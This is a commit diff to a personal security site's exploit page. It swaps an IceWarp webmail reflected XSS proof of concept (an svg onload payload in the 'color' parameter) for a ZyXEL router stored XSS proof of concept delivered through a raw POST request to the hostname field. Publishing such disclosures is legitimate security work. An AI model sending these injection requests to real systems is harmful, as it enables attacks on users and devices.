

Before and after one commit to lutfumertceylan/mywebsite, a Jekyll site: the page built from _exploits/2020-01-27-IceWarp-Exploit-XSS.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2020-01-27-IceWarp-Exploit-XSS.md

```diff
--- a/_exploits/2020-01-27-IceWarp-Exploit-XSS.md
+++ b/_exploits/2020-01-27-IceWarp-Exploit-XSS.md
@@ -1,45 +1,48 @@
 ---
-title: "IceWarp 11.4.4.1 Cross-Site Scripting".
+title: "ZyXEL VMG3312-B10B Stored Cross-Site Scripting"
 collection: exploits
-excerpt: "IceWarp 11.4.4.1 Cross-Site Scripting"
-permalink: /exploit/icewarp-xss-exploit
-date: 2020-01-27
+excerpt: "ZyXEL VMG3312-B10B Stored Cross-Site Scripting"
+permalink: /exploit/zyxel-stored-xss-exploit
+date: 2018-08-21
 tags:
   - exploit
-  - CVE 2020 8512
-  - icewarp
-  - Reflected XSS
-  - IceWarp Webmail 11.4.4.1
+  - CVE 2018 15602
+  - zyxel
+  - Stored XSS
+  - ZyXEL VMG3312 B10B router
 ---
 
-**Exploit Author :** Lutfu Mert Ceylan
-**Date :** 27.01.2020
-**Software Link :** https://gitlab.icewarp.com/pub/c-client/tree/tags/11.4.4.1/
-**Vendor Homepage :** https://www.icewarp.com/
-
-**Version :** IceWarp 11.4.4.1 and below
-**Tested on :** Mozilla Firefox 56.0 && Opera 66.0.3515.44
-**Category :** Reflected XSS
-**CVE ID :** CVE-2020-8512
+**Exploit Author :** Samet SAHIN
+**Date :** 21.08.2018
+**Software Link :** ftp://ftp.zyxel.com.tr/ZyXEL_URUNLERI/MODEMLER/VDSL_MODEMLER/VMG3312-B10B/
+**Vendor Homepage :** https://www.zyxel.com/
+**Version :** ZyXEL VMG3312-B10B
+**Tested on :** Mozilla Firefox 61.0.2 && Google Chrome 67.0.3396.99
+**Category :** Stored XSS
+**CVE ID :** CVE-2018-15602
 
 <hr><br>
 
-**GET REQUEST :**
+**POST REQUEST :**
 
-GET /webmail/?color="><svg/onload=alert("**XSS PAYLOAD**")> HTTP/1.1
-Host: **host**
-User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
+POST /pages/connectionStatus/connectionStatus-hostEntry.cmd HTTP/1.1
+Host: 192.168.1.1
+User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:54.0) Gecko/20100101 Firefox/54.0
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
 Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
 Accept-Encoding: gzip, deflate
-Cookie: **cookie**
+Referer: http://192.168.1.1/index.html
+Content-Type: application/x-www-form-urlencoded
+Content-Length: 79
+Cookie: SESSION=529313605
 Connection: close
 Upgrade-Insecure-Requests: 1
+action=edit&oldip=192.168.1.36&hosttype=&sessionKey=1997367832&**hostname**=**XSS PAYLOAD**
 
 **Vulnerable Page :**
-/webmail/
+/pages/connectionStatus/connectionStatus-hostEntry.cmd
 **Vulnerable Parameter :**
-color
+hostname
 
 
-Exploit DB : <a href="https://www.exploit-db.com/exploits/"></a>
+Exploit DB : <a href="https://www.exploit-db.com/exploits/45236">45236</a>
```
